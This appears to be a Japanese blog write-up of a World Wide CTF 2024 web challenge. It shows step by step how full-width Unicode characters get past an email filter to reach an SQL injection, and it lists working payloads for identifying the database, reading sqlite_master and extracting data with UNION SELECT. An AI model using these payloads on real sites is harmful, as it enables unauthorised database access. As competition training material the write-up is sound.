 ```yaml
---
title: "World Wide CTF 2024 - writeup"
date: "2024-12-02T00:00:00.000Z"
lang: JA
---
```


![](/assets/blog/wwctf/1.png)

SECCONが終わり、「次の目標どうしようか」「他のチームでもプレイしてみたいな」と悩んでいたところ、先日ctfguyさんに新チームInfobahnに参加しないか、と誘ってただきました。

というわけで、デビュー戦のWorld Wide CTF 2024に後半だけですが参加しました。そうしたらなんと優勝しました！！！すごすぎる！！！(僕自身はあまり貢献できていませんが)

前のチームより人数も多いし、全体的にレベルがすごく高くてついていけるか不安ですが、いろいろ知識を吸収して少しでも活躍できるように成長していきたいです。

私が解いた一問と、主に他のチームメイトが解いた一問のwriteupです。


## ✅ World Wide Email (480pts 7 solves)

※すでにサイトが閉じてしまったので、細かい箇所はあまり覚えていません...残念

Eメールを入力して、そのEメールに対するメッセージを表示してくれるサイト。ソースコードなし。

いろいろな入力を試してみて、どのような反応があるか試した。(メッセージの詳細は忘れたので、[Orelさんのwriteup](https://www.thesecuritywind.com/post/world-wide-ctf-2024-world-wide-email-search-web)を参考にしました。)

* `aaa` - 「Invalid email address」
    * アドレスの形式のチェックがある
* `a@b.com` - 「No message found for email a@b.com」
* `admin@wwctf.com` - 「Found message for email: Welcome back admin!」
    * なにかしらデータを保存している箇所はありそう
* `adm-in@wwctf.com` - 「Invalid email address」
    * [RFC的には許可されてるはず](https://ja.wikipedia.org/wiki/%E3%83%A1%E3%83%BC%E3%83%AB%E3%82%A2%E3%83%89%E3%83%AC%E3%82%B9)?
    * 他にも禁止されている文字が多い
* `admin@w'wctf.com` - 「Found message for email: Welcome back admin!」
    * 他の文字と違って取り除かれている？
    * 取り除かなければならないということは、なにかしらのインジェクションの対策か？
    * `"`も同様
* `aｄmin@wwctf.com`(`d`が全角) - 「Found message for email: Welcome back admin!」
    * ユニコード文字を似たascii文字に変換している？
* `a’dmin@wwctf.com`(`'`が全角) - 「Error: near "dmin": syntax error」
    * インジェクションに成功してるか？
* `’OR’’＝’’ーーdmin@wwctf.com` - 「Found message for email: Welcome back admin!」
    * SQLインジェクションだ！

あとは、ごく一般的なSQLインジェクションの手法に従えばよい。

* [PayloadAllTheThingのDBMS Identification](https://www.thesecuritywind.com/post/world-wide-ctf-2024-world-wide-email-search-web)を参考に、データベースの特定を行う
    * `’OR/**/conv（’a’，16，2）＝conv（’a’，16，2）ーーdmin@wwctf.com`
        * エラー → MySQLではない
    * `’OR/**/pg_client_encoding（）＝pg_client_encoding（）ーーdmin@wwctf.com`
        * エラー → PostgreSQLではない
    * `’OR/**/sqlite_version（）＝sqlite_version（）ーーdmin@wwctf.com`
        * 「Found message for email: Welcome back admin!」→ SQLiteで確定
* [PayloadAllTheThingのSQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)を参考に、テーブルの一覧を取得する
    * `’/**/UNION/**/SELECT/**/sql/**/FROM/**/sqlite_masterーーdmin@wwctf.com` - テーブル名が`flagz`、カラム名が`flag`であることが判明
* `’/**/UNION/**/SELECT/**/flag/**/FROM/**/flagzーー@wwctf.com` - フラグ入手
